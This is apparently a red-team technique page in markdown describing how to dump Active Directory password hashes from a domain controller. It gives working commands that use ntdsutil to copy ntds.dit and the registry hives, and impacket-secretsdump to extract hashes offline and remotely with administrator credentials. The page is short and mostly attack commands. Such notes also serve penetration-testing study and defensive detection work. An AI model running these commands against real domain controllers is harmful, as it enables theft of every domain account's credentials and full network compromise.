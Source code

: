 ```yaml
---
description: Dumping NTDS.dit with Active Directory users hashes
---
```


# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes offline with impacket:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```text
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

![](../../.gitbook/assets/image%20%2896%29.png)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" %}



